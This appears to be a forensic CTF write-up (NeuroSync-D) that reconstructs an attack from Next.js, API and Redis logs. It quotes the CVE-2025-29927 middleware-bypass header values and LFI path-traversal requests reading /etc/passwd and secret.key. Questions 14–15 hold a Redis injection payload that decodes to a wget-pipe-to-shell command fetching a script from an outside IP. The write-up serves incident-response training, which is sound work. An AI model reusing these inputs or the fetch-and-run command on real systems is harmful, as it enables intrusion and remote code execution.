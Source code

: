 # NeuroSync-D

#API #linux #logs #access.log

## Speech
> NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

## Analysis
We have these files:
```
total 486332
-rw-r----- 1 kali kali     24835 Apr  1 07:42 access.log
-rw-r--r-- 1 kali kali      2617 Apr  1 07:41 bci-device.log
-rw-r--r-- 1 kali kali     27914 Apr  1 07:41 data-api.log
-rw-r--r-- 1 kali kali      8397 Apr  1 07:41 interface.log
-rw-r--r-- 1 kali kali      7209 Apr  1 07:41 redis.log
```

## Questions
1. What version of Next.js is the application using?
    > 15.1.0
    - Top of the **Interface.log** file
2. What local port is the Next.js-based application running on?
    > 3000
    - idem as 1
3. A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?
    > CVE-2025-29927
    - Search online for vulnerability released in march 2025 against next.js 15.1.0
4. The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?
    > main-app.js
    - Look at the first line of **access.log**:
    ```
    10.129.231.211 - - [01/Apr/2025:11:37:17 +0000] "GET / HTTP/1.1" 200 8486 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"
    10.129.231.211 - - [01/Apr/2025:11:37:35 +0000] "GET /_next/static/chunks/framework.js HTTP/1.1" 404 9321 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"
    10.129.231.211 - - [01/Apr/2025:11:37:38 +0000] "GET /_next/static/chunks/main.js HTTP/1.1" 404 9318 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"
    10.129.231.211 - - [01/Apr/2025:11:37:40 +0000] "GET /_next/static/chunks/commons.js HTTP/1.1" 404 9319 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"
    10.129.231.211 - - [01/Apr/2025:11:37:44 +0000] "GET /_next/static/chunks/main-app.js HTTP/1.1" 200 1375579 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"
    10.129.231.211 - - [01/Apr/2025:11:37:47 +0000] "GET /_next/static/chunks/app/page.js HTTP/1.1" 200 64640 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"
    ```
    - The first one with code 200 (success) is main-app.js
5. Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?
    > /api/bci/analytics
    - **interface.log**, only one endpoint requested
6. How many requests to this endpoint have resulted in an "Unauthorized" response?
    > 5
    - count the 401 code in **access.log**
7. When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?
    > 2025-04-01 11:38:05
    - first HTTP code 200 in **access.log**: `10.129.231.211 - - [01/Apr/2025:11:38:05 +0000] "GET /api/bci/analytics HTTP/1.1" 200 737 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"`
8. Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?
    > x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
    - In **interface.log** we have this:
    ```
    2025-04-01T11:37:58.163Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-real-ip","10.129.231.211"]]
    2025-04-01T11:37:59.699Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware"],["x-real-ip","10.129.231.211"]]
    2025-04-01T11:38:01.280Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware:middleware"],["x-real-ip","10.129.231.211"]]
    2025-04-01T11:38:02.486Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware:middleware:middleware"],["x-real-ip","10.129.231.211"]]
    2025-04-01T11:38:04.111Z - 10.129.231.211 - GET - http://localhost:3000/api/bci/analytics - [["accept","*/*"],["accept-encoding","gzip, deflate, br"],["connection","close"],["host","10.129.231.215"],["user-agent","Mozilla/5.0 (Windows NT 10.0; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0"],["x-forwarded-for","10.129.231.211"],["x-forwarded-host","10.129.231.215"],["x-forwarded-port","3000"],["x-forwarded-proto","http"],["x-middleware-subrequest","middleware:middleware:middleware:middleware"],["x-real-ip","10.129.231.211"]]
    ```
    - From the previous search about the vulnerability we know the vulnerability stems in the *x-middleware-subrequest* header, and with these lines we can see that the attacker try to exploit each time with one more "middleware:"
9. The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?
    > 4000
    - In **data-api.log**
10. After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?
    > /logs
    - In **data-api.log**, only one endpoint
11. When the vulnerable endpoint found was used maliciously for the first time?
    > 2025-04-01 11:39:01
    - In **data-api.log**: We notice multiple LFI: `2025-04-01 11:39:01 [VERBOSE] Incoming request: GET /logs?logFile=/var/log/../.../...//../.../...//etc/passwd from ::ffff:127.0.0.1`
12. What is the attack name the endpoint is vulnerable to?
    > Local File Inclusion
    - :)
13. What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?
    > secret.key
    - In **data-api.log**, last LFI request
14. Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?
    > OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
    - In the **redis.log** file we have that
15. Once decoded, what is the command?
    > wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
    - In the **bci-device.log** file or by decoding the previous payload